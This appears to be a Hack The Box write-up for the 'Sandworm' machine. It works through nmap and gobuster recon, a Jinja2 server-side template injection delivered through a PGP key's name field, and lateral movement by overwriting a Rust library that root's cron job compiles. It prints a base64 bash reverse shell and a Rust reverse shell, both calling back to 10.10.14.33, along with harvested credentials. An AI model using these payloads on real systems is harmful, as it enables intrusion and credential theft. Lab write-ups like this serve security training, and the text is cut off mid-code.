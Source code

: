 <details>
<summary>Recon</summary>

<details>
<summary>Recon - nmap</summary>

To begin the reconnaissance process, we can initiate an Nmap scan on the target system. Considering that this is a Hack The Box system and not a production environment, we don't need to prioritize minimizing detectability or limiting the impact on the target system. Therefore, we can run the Nmap scan without concern for stealthy scanning techniques.
```Bash
nmap -sSCV -p- --min-rate=5000 10.129.182.254
```

```
Nmap scan report for 10.129.182.254
Host is up (0.047s latency).
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 b7896c0b20ed49b2c1867c2992741c1f (ECDSA)
|_  256 18cd9d08a621a8b8b6f79f8d405154fb (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://ssa.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Secret Spy Agency | Secret Security Service
| ssl-cert: Subject: commonName=SSA/organizationName=Secret Spy Agency/stateOrProvinceName=Classified/countryName=SA
| Not valid before: 2023-05-04T18:03:25
|_Not valid after:  2050-09-19T18:03:25
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

To facilitate access to the hostname mentioned (`ssa.htb`), we can add an entry for it in the `/etc/hosts` file on our local machine. This will allow us to easily reference the hostname without relying on DNS resolution.
</details>

<details>
<summary>Recon - gobuster</summary>

While exploring the application, we see that port 80 redirects to HTTPS. Since the certificate being used is self-signed, we may encounter certificate verification errors. To bypass these errors, we can utilize the `-k` flag with the `gobuster dir` command. This flag instructs gobuster to skip TLS certificate verification and proceed with the directory enumeration.

```
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u https://ssa.htb -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://ssa.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/06/28 12:10:00 Starting gobuster in directory enumeration mode
===============================================================
/about                (Status: 200) [Size: 5584]
/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
/contact              (Status: 200) [Size: 3543]                          
/guide                (Status: 200) [Size: 9043]                          
/login                (Status: 200) [Size: 4392]                          
/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
/pgp                  (Status: 200) [Size: 3187]                           
/process              (Status: 405) [Size: 153]                            
/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]  
                                                                           
===============================================================
2023/06/28 12:10:26 Finished
===============================================================
```
</details>
</details>

<details>
<summary>Path to Foothold</summary>

While exploring the enumerated directories, we see a PGP key and its association with the `/guide` page. The presence of a PGP key suggests that the path to a foothold might involve PGP keys and related functionalities.

<details>
<summary>Server Side Template Injections</summary>

<details>
<summary>Server Side Template Injections: Reading</summary>

At the bottom of the page, it is mentioned that the site is `powered by Flask`. If we conduct a Google search for "`hacktricks Flask`," one of the top results is a GitHub page:   
[hacktricks/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md)

This page provides information about `server-side template injection` (`SSTI`) with `Jinja2`, which suggests that *the application might be susceptible to `SSTI` vulnerabilities.*

`Jinja2` is a widely used `template engine` in conjunction with `Flask`.

For further exploration and testing, `PayloadsAllTheThings` provides a comprehensive collection of payloads and techniques for various programming languages and their associated template engines. This resource offers a range of payloads that can be utilized to assess and potentially exploit vulnerabilities.  
[PayloadsAllTheThings: Server Side Template Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)  

While the presence of `Flask` suggests the possibility of server-side templates being used, it does not guarantee the existence of a `server-side template injection` vulnerability. `Server-side template injection vulnerabilities` can occur in various web frameworks, including `Flask`, but their presence cannot be solely determined based on the framework being used.

To identify a `server-side template injection` vulnerability, it is necessary to perform thorough testing and analysis, including injecting payloads and analyzing the response.  
[Portswigger Writeup on SSTI](https://portswigger.net/web-security/server-side-template-injection)  
[Portswigger Research on SSTI](https://portswigger.net/research/server-side-template-injection)  
[Portswigger Practice SSTI](https://portswigger.net/web-security/all-labs#server-side-template-injection)

</details>

<details>
<summary>scripts.js</summary>

Within the `/guide` page, there are references to both minified JavaScript files and an unminified `scripts.js` file. The presence of the custom `scripts.js` file suggests that it is specifically developed for this application.

Upon inspection, we see the JavaScript code is responsible for handling form submissions using the POST method to the `/process` endpoint. Although we do not have direct access to the server-side code processing the input, this functionality implies that there is server-side code involved in the processing of the submitted data. Server-side processing of input does sound like we could potentially inject code here.

In the code snippet below, we can observe that the data being transmitted includes the parameters "`signed_text`" and "`public_key`," which are utilized in conjunction with the "`Verify Signature`" button.

``` javascript
$(function () {
    $('[data-toggle="tooltip"]').tooltip()
  });

$(document).ready(function() {
    $(".verify-form").submit(function(e) {
      e.preventDefault();
      var signed_text = $("#signed_text").val();
      var public_key = $("#public_key").val();
      $.ajax({
        type: "POST",
        url: "/process",
        data: { signed_text: signed_text, public_key: public_key },
        success: function(result) {
          $("#signature-result").html(result);
          $("#signature-modal").modal("show");
        }
      });
    });
	    $("#signature-modal .btn-secondary").click(function() {
      $("#signature-modal").modal("hide");
    });
  });
```
</details>
</details>

<details>
<summary>Server Side Template Injections: GPG Payload Process</summary>

When generating a `PGP` key, there are typically two fields that can be manipulated: the name and the email address. Our initial focus will be on the name field. To identify any potential `Server-Side Template Injection` (`SSTI`) vulnerability within this specific application, we can utilize "`PayloadsAllTheThings`" as a resource for discovering a basic Jinja2 injection. 

[PayloadsAllTheThings: Server Side Template Injections](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection) 

You can input the following code snippet as the "Name" field during the creation of a `PGP` key for testing purposes: 
```Python
{{4*4}}
```
</details>
<details>
<summary>Generate PGP key</summary>

```bash
gpg --gen-key
Real name: {{4*4}}
Email address: a@a.net
You selected this USER-ID:
    "{{4*4}} <a@a.net>"
```
Enter O for okay

To facilitate the testing process, you can enter a password for authentication purposes. While it is generally considered a poor practice to use a simple password like "password," we can overlook this concern for the purpose of testing against this system.

```bash
gpg: key 020AEF7A1D6044A3 marked as ultimately trusted
gpg: revocation certificate stored as '/home/user/.gnupg/openpgp-revocs.d/55CF50DBBD82991B17B5C027020AEF7A1D6044A3.rev'
public and secret key created and signed.

pub   rsa3072 2023-06-30 [SC] [expires: 2025-06-29]
      55CF50DBBD82991B17B5C027020AEF7A1D6044A3
uid                      {{4*4}} <a@a.net>
sub   rsa3072 2023-06-30 [E] [expires: 2025-06-29]
```
</details>

<details>
<summary>Export PGP key</summary>

To export a copy of your `public key`, you can use the following command, ensuring that you replace the `key id` with the actual id of your key.

```Bash
gpg --export -a 020AEF7A1D6044A3

-----BEGIN PGP PUBLIC KEY BLOCK-----

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
NqaQVamMzMHM
=psZn
-----END PGP PUBLIC KEY BLOCK-----
```
</details>

<details>
<summary>Sign message</summary>

There are various methods available for signing a message, but in the context of this exercise, we can accomplish it by using the `echo` command. In this example, we utilize a `pipeline` to redirect the output from `echo` as input to the `gpg` function. We specify the operation as `sign` and indicate the usage of `ASCII armoring` to facilitate processing. By employing `ASCII armoring`, the resulting data is encoded in `base64` format instead of the typical `base16` (`hexadecimal`) representation. Additionally, we include the specification of a `local user key`, which becomes necessary when there are multiple `private keys` present in the `keyring`. It is important to note that the `0x` prefix is included before the `long-format key ID` to denote its representation in `hexadecimal` format. This convention is particularly useful when managing keys, as it enables easy deletion based on the `key IDs`, which can be more straightforward than attempting to identify and delete a key based on the `payload` stored within the key's `name`.

```bash
echo 'henlo ssa' | gpg --sign --armor --local-user 0x020AEF7A1D6044A3
-----BEGIN PGP MESSAGE-----

owEB1wEo/pANAwAKAQIK73odYESjAcsQYgBknm5kaGVubG8gc3NhCokBswQAAQoA
HRYhBFXPUNu9gpkbF7XAJwIK73odYESjBQJknm5kAAoJEAIK73odYESjvIcMAM73
K6g3qRGl3048UnHt+hqcQ3Xebmqhf+HyVEsXZdXVFpzGDakdvNdoIylt55qmtELr
1Y/ZM54Kh3KSjawu6pBKed5LisS45nsRpQisXBz4bNlcMrzZVMiHP5SHZNWV9PkO
MduiD578YqfblEy/gQQXglQzOmw8Z/dD3oFS2zfDIHWYhrRqXtZ8AH1l1MnH/2vJ
BXunlZvBhxV2/SszVye0fCLTDimU3rbSU6N5R4pNyL3xvksIb3lSXVzkT+oqmCl8
x6QCfjPac8zmDAb7DG9thKeY3NR4glgE29JpCEwtQf7T6qeQjPOQ09+M/c98uBJU
pvDlkDmgA8ZC6aFVYT/+Dr9HKZBTGeHOVSV2EPgps7Yz4tNCqQb92r4vqwXEe9vD
r7ZuUtkr85lqZePBm9QzX4hu4QlPpWVfgcCEdLf3C0YXh4Rqd6YXTvtGsoBPU/CO
3UKDNgbAP1To0SQibQWjNlGAydVgym8KPe/lnw2Xr98g+Ugeg0xvndIpxobWMw==
=IxZK
-----END PGP MESSAGE-----
```
</details>

<details>
<summary>Testing our payload</summary>

In order to test our payload, we need to submit our public key and this message.

If submitted properly, we should see the following response indicating a positive result for SSTI vulnerability.

Signature is valid! [GNUPG:] NEWSIG gpg: Signature made Fri 30 Jun 2023 05:55:48 AM UTC gpg: using RSA key 55CF50DBBD82991B17B5C027020AEF7A1D6044A3 [GNUPG:] KEY_CONSIDERED 55CF50DBBD82991B17B5C027020AEF7A1D6044A3 0 [GNUPG:] SIG_ID NnPgkibdtPZKDI92OOw9QOrtDYI 2023-06-30 1688104548 [GNUPG:] KEY_CONSIDERED 55CF50DBBD82991B17B5C027020AEF7A1D6044A3 0 [GNUPG:] GOODSIG 020AEF7A1D6044A3 16 gpg: `Good signature from "16 "` [unknown] [GNUPG:] VALIDSIG 55CF50DBBD82991B17B5C027020AEF7A1D6044A3 2023-06-30 1688104548 0 4 0 1 10 00 55CF50DBBD82991B17B5C027020AEF7A1D6044A3 [GNUPG:] TRUST_UNDEFINED 0 pgp gpg: WARNING: This key is not certified with a trusted signature! gpg: There is no indication that the signature belongs to the owner. Primary key fingerprint: 55CF 50DB BD82 991B 17B5 C027 020A EF7A 1D60 44A3
</details>

<details>
<summary>Payload to Foothold</summary>

With the confirmation of the web server's vulnerability, we can now focus on crafting a robust payload to establish our initial foothold.

[Exploit Notes: Jinja2 Pentesting](https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/)  
Exploit Notes served as a valuable resource by providing the payload template I utilized to establish a foothold.

To successfully execute our reverse shell, we must employ a multi-layered payload and encode it using Base64. This encoding ensures that the payload can be decoded and executed seamlessly within the server's processing pipeline.

```Bash
echo 'bash -c \"bash -i >& /dev/tcp/10.10.14.33/1337 0>&1\"' | base64
```
The base64 output is `YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMy8xMzM3IDA+JjEiCg==`  
So, to use this we need to add it in the quotes of our echo command inside the payload below.

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zMy8xMzM3IDA+JjEiCg==" | base64 -d | bash').read() }}
```

Now that we have our `payload`, the next steps involve generating a new `PGP` key with the payload as the `Name` value, exporting the corresponding `public key`, `signing` an arbitrary message, and `verifying` it on the `/guide` page. Before proceeding with the `verification`, it is crucial to configure a `netcat listener` on the chosen `port` to ensure proper communication.

If all goes well, you should be seeing a connection to your listener as `atlas@sandworm` instead of `www-data`.
</details>
</details>

<details>
<summary>Foothold to User</summary>

```bash
id
uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
```

I was able to `cat` the `/etc/passwd` and see atlas can be logged into via ssh.

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
fwupd-refresh:x:113:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
silentobserver:x:1001:1001::/home/silentobserver:/bin/bash
atlas:x:1000:1000::/home/atlas:/bin/bash
_laurel:x:997:997::/var/log/laurel:/bin/false
```

While exploring the files and directories, one being `~/.config/firejail` which hints that we may be in a `sandbox`. 

> `Firejail` is a `SUID sandbox` program that reduces the risk of security breaches by `restricting the running environment of untrusted applications` using Linux namespaces, seccomp-bpf and Linux capabilities. It allows a process and all its descendants to have their own private view of the globally shared kernel resources, such as the network stack, process table, mount table. - [Github: Firejail](https://github.com/netblue30/firejail)

I was unable to unable to add my `ssh key` as a `persistance` technique due to being restricted by the `firejail sandbox`, read-only file system. I cannot check the version of `firejail`, and I cannot check for `SUID binaries` at this time either.

 You should eventually find a specific file that contains hardcoded credentials. I noticed the absence of a `user.txt` file in the `home` directory, which prompted me to search for additional clues. During this process, I came across the presence of `httpie` in the `.config` directory, which piqued my interest as I was unfamiliar with it. As I continued digging, I located the file mentioned below. To gather more information, I conducted a quick online search and discovered that `httpie` is an `API testing client`.  

Upon testing the `username` and `password` as `SSH` credentials, I was able to log in and find the `user.txt` file in the `home` directory belonging to `silentobserver`.

```Bash
cat ~/.config/httpie/sessions/localhost_5000/admin.json
```

```JSON
{
    "__meta__": {
        "about": "HTTPie session file",
        "help": "https://httpie.io/docs#sessions",
        "httpie": "2.6.0"
    },
    "auth": {
        "password": "quietLiketheWind22",
        "type": null,
        "username": "silentobserver"
    },
    "cookies": {
        "session": {
            "expires": null,
            "path": "/",
            "secure": false,
            "value": "eyJfZmxhc2hlcyI6W3siIHQiOlsibWVzc2FnZSIsIkludmFsaWQgY3JlZGVudGlhbHMuIl19XX0.Y-I86w.JbELpZIwyATpR58qg1MGJsd6FkA"
        }
    },
    "headers": {
        "Accept": "application/json, */*;q=0.5"
    }
}
```
</details>

<details>
<summary>Silentobserver back to Atlas</summary>

<details>
<summary>SUID Binaries</summary>

```bash
id
uid=1001(silentobserver) gid=1001(silentobserver) groups=1001(silentobserver)
```

Checking `sudo -l` informed us `silentobserver` may not run `sudo` on `localhost`.

 I still can't determine the version of `firejail`, and I can't use `cp` in the `sandbox` as `atlas` to try to get my `ssh key` set up as a `backdoor`. I googled and found a `suid bit priv esc` [exploit](https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25) for `firejail` as well as an [escape](https://www.exploit-db.com/exploits/43359) `exploit`. However, the escape method seems outdated, and there is a risk of potentially bricking the virtual machine. Considering these factors, I've decided to postpone attempting the escape and avoid the need to reset the machine.

 There is no `cron jobs` listed for `silentobserver`, and only routine `cron jobs` in `/etc/crontab`

 Checking for `SUID binaries` shows some interesting binaries in the `/opt` directory, some files are being ran with `atlas`'s permissions. I would expect the `firejail` to be around the `webapp`, but not these so I am going to look into these to see if they could be a path foward.

While I explore these options, I'm going to get `pspy64` onto this machine and start monitoring processes.
```bash
find / -type f -perm /4000 -exec ls -la {} \; 2>/dev/null

-rwsrwxr-x 2 atlas atlas 59047248 Jun 30 19:00 /opt/tipnet/target/debug/tipnet
-rwsrwxr-x 1 atlas atlas 56234960 May  4 18:06 /opt/tipnet/target/debug/deps/tipnet-a859bd054535b3c1
-rwsrwxr-x 2 atlas atlas 59047248 Jun 30 19:00 /opt/tipnet/target/debug/deps/tipnet-dabc93f7704f7b48
-rwsr-x--- 1 root jailer 1777952 Nov 29  2022 /usr/local/bin/firejail
-rwsr-xr-- 1 root messagebus 35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 338536 Nov 23  2022 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
-rwsr-xr-x 1 root root 47480 Feb 21  2022 /usr/bin/mount
-rwsr-xr-x 1 root root 232416 Apr  3 18:00 /usr/bin/sudo
-rwsr-xr-x 1 root root 72072 Nov 24  2022 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 35192 Feb 21  2022 /usr/bin/umount
-rwsr-xr-x 1 root root 59976 Nov 24  2022 /usr/bin/passwd
-rwsr-xr-x 1 root root 44808 Nov 24  2022 /usr/bin/chsh
-rwsr-xr-x 1 root root 72712 Nov 24  2022 /usr/bin/chfn
-rwsr-xr-x 1 root root 40496 Nov 24  2022 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55672 Feb 21  2022 /usr/bin/su
-rwsr-xr-x 1 root root 35200 Mar 23  2022 /usr/bin/fusermount3
```
</details>

<details>
<summary>Enumerating the path foward</summary>

`pspy64` shows `root` has been very active. We see in 2 minute intervals:
- root running `cron jobs`
- root using `sudo` to run `cargo` while restricting it to not have network access
  - This program is a package manager and build tool for the `Rust` language.
- root changing directories to `/opt/tipnet` before running `cargo` as `atlas` while passing the character "`e`" to it
- root uses `cron -f -p` to stay in foreground mode rather than daemonizing and not to set PATH for child processes so it can inherit instead.
- root then sleeps for 10 seconds
- root then uses `sudo` to run `cargo` as `atlas` again, without networking.
- `atlas` then uses `rustc -vV` to be verbose and print the versions of rust, the host architecture, and the version of LLVM that is being used.
- `atlas` then appears to `compile` an unspecified crate, implied as from the `/opt/tipnet` directory
- root removes `/opt/crates`
- root then runs `/root/Cleanup/clean_c.sh`
- root runs `chmod u+s /opt/tipnet/target/debug/tipnet`
- bonus on the hour is confirming the `firejail` for the `webapp` running as `atlas` but nothing else.

```bash
2023/06/30 23:30:01 CMD: UID=0     PID=40480  | /usr/sbin/CRON -f -P 
2023/06/30 23:30:01 CMD: UID=0     PID=40487  | 
2023/06/30 23:30:01 CMD: UID=0     PID=40489  | /bin/sudo -u atlas /usr/bin/cargo run --offline 
2023/06/30 23:30:01 CMD: UID=0     PID=40488  | /bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline 
2023/06/30 23:30:01 CMD: UID=0     PID=40490  | /usr/sbin/CRON -f -P 
2023/06/30 23:30:01 CMD: UID=0     PID=40491  | sleep 10 
2023/06/30 23:30:01 CMD: UID=0     PID=40492  | /bin/sudo -u atlas /usr/bin/cargo run --offline 
2023/06/30 23:30:01 CMD: UID=1000  PID=40493  | rustc -vV 
2023/06/30 23:30:01 CMD: UID=1000  PID=40494  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro -Csplit-debuginfo=packed 
2023/06/30 23:30:01 CMD: UID=1000  PID=40496  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro --print=sysroot --print=cfg 
2023/06/30 23:30:01 CMD: UID=1000  PID=40498  | rustc -vV 
2023/06/30 23:30:11 CMD: UID=0     PID=40503  | /bin/rm -r /opt/crates 
2023/06/30 23:30:11 CMD: UID=0     PID=40502  | /bin/bash /root/Cleanup/clean_c.sh 
2023/06/30 23:30:11 CMD: UID=0     PID=40504  | /bin/bash /root/Cleanup/clean_c.sh 
2023/06/30 23:30:11 CMD: UID=0     PID=40505  | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet 

2023/07/01 00:00:01 CMD: UID=0     PID=40992  | /bin/cp -p /root/Cleanup/webapp.profile /home/atlas/.config/firejail/ 
```

</details>

<details>
<summary>Rusty Rabbit Hole: hardcoded credentials in main.rs</summary>

Digging into the first `SUID` running as `atlas`, we find the binary named `tipnet` and a makefile-compatible dependency list file named `tipnet.d`.

```bash
ls -lah /opt/tipnet/target/debug/
drwxrwxr-x   7 root  atlas 4.0K Jun 30 19:00 .
drwxr-xr-x   3 root  atlas 4.0K Jun  6 11:49 ..
drwxrwxr-x 142 atlas atlas  12K Jun  6 11:49 build
-rwxrwxr--   1 root  atlas    0 Feb  8 09:10 .cargo-lock
drwxrwxr-x   2 atlas atlas  68K Jun 30 19:00 deps
drwxrwxr-x   2 atlas atlas 4.0K Jun  6 11:49 examples
drwxrwxr-- 472 root  atlas  24K Jun  6 11:49 .fingerprint
drwxrwxr-x   6 atlas atlas 4.0K Jun  6 11:49 incremental
-rwsrwxr-x   2 atlas atlas  57M Jun 30 19:00 tipnet
-rw-rw-r--   1 atlas atlas   87 May  4 17:24 tipnet.d
```

```bash
cat /opt/tipnet/target/debug/tipnet.d

/opt/tipnet/target/debug/tipnet: /opt/crates/logger/src/lib.rs /opt/tipnet/src/main.rs

ls -lah  /opt/tipnet/src/main.rs
-rwxr-xr-- 1 root atlas 5.7K May  4 16:55 /opt/tipnet/src/main.rs

ls -lah /opt/crates/logger/src/lib.rs 
-rw-rw-r-- 1 atlas silentobserver 732 May  4 17:12 /opt/crates/logger/src/lib.rs
```

As seen above, we have read access to `main.rs` and write access to `lib.rs`

Upon reading `main.rs` we find `hardcoded credentials` for a mysql database. This turns out to be a `rabbit hole` as we can connect to the database but we do not have read permissions to the database.

```Rust
fn connect_to_db(db: &str) -> Result<mysql::PooledConn> {
    let url = "mysql://tipnet:4The_Greater_GoodJ4A@localhost:3306/Upstream";
    let pool = Pool::new(url).unwrap();
    let mut conn = pool.get_conn().unwrap();
    return Ok(conn);
}
```
</details>

<details>
<summary>Lateral pivoting via lib.rs</summary>
Since we have write access to `lib.rs`, we should try adding in our own code as a `reverse shell` to see if we can get unjailed as `atlas`.

We have a short amount of time before lib.rs is wiped, so today we use `vim`.  
Upon changing directories into `/opt/crates/logger/src` `lib.rs` is created.

Prior to modifying lib.rs, set up your netcat listener to your chosen port to make sure it is listening before our code is executed.

To be fast about this, wait until lib.rs is deleted, then do the following.
```
cd .. && cd src && vim lib.rs
```
Once in vim enter `:%d` followed by `ctrl+shift+v` followed by `:wq!`

Before
```Rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }
}

```
After

```Rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::{Command, Stdio};

pub fn log(user: &str, query: &str, justification: &str) {
    let command = "bash -i >& /dev/tcp/10.10.14.33/1337 0>&1";

    let output = Command::new("bash")
        .arg("-c")
        .arg(command)
        .stdin(Stdio::inherit())
        .stdout(Stdio::inherit())
        .stderr(Stdio::inherit())
        .output()
        .expect("Failed to execute reverse shell command.");

    if output.status.success() {
        let stdout = String::from_utf8_lossy(&output.stdout);
        let stderr = String::from_utf8_lossy(&output.stderr);

        println!("Standard output: {}", stdout);
        println!("Error output: {}", stderr);
    } else {
        let stderr = String::from_utf8_lossy(&output.stderr);
        eprintln!("Error: {}", stderr);
    }

